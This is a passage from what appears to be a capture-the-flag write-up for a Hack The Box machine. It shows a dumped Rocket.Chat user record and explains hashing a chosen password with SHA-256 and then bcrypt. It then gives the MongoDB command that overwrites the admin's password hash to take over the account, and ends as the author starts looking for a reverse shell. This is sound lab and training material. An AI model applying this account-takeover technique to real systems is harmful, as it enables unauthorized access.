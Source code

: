```json
                "password" : {
                        "bcrypt" : "$2b$10$jzSWpBq.eJ/yn/Pdq6ilB.UO/kXHB1O2A.b2yooGebUbh69NIUu5y"
                },
                "email" : {
                        "verificationTokens" : [
                                {
                                        "token" : "dgATW2cAcF3adLfJA86ppQXrn1vt6omBarI8VrGMI6w",
                                        "address" : "saul@talkative.htb",
                                        "when" : ISODate("2021-08-10T19:49:48.738Z")
                                }
                        ]
                },
                "resume" : {
                        "loginTokens" : [ ]
                }
        },
        "emails" : [
                {
                        "address" : "saul@talkative.htb",
                        "verified" : false
                }
        ],
        "type" : "user",
        "status" : "offline",
        "active" : true,
        "_updatedAt" : ISODate("2022-07-26T20:32:56.912Z"),
        "roles" : [
                "admin"
        ],
        "name" : "Saul Goodman",
        "lastLogin" : ISODate("2022-03-15T17:06:56.543Z"),
        "statusConnection" : "offline",
        "username" : "admin",
        "utcOffset" : 0
}
```

We can change the bcrypt password hash to effectively change `saul`'s password. First, we need to learn how Rocket.Chat stores user passwords. According to [the source code](https://github.com/RocketChat/Rocket.Chat/blob/f0c37c5a8c904181577b80d239255284ac6a1280/apps/meteor/ee/server/services/account/lib/utils.ts#L25), the sha256 hash of the password is sent through bcrypt. We can use [CyberChef](https://gchq.github.io/CyberChef/#recipe=SHA2('256',64,160)&input=VHJJTU9kRUN0aUNF) to get the sha265 hash for the string `TrIMOdECtiCE`, which is `ea707b3477c09f18ec3884fc98e14f4b71ea1c74de41ce976067678b964563f8`. Then, using [this site](https://bcrypt-generator.com/), we generate the bcrypt hash for `ea707b3477c09f18ec3884fc98e14f4b71ea1c74de41ce976067678b964563f8`, which is `$2a$12$7IaJBjaGVPO30VtuB7ptx.UKlHG3ghPrpAWcd5MYcXRFefy/atsna`.

The command to update the record is `db.users.updateOne({"_id": "ZLMid6a4h5YEosPQi"}, {$set: {"services": {"password": {"bcrypt": "$2a$12$7IaJBjaGVPO30VtuB7ptx.UKlHG3ghPrpAWcd5MYcXRFefy/atsna"}}}})`.

Now, we can sign into the Rocket.Chat instance as the `admin` user. There doesn't seem to be much, but since the theme of this box seems to be getting reverse shells into services running in Docker containers (we've done it twice before), we start looking for a reverse shell oppotunity.

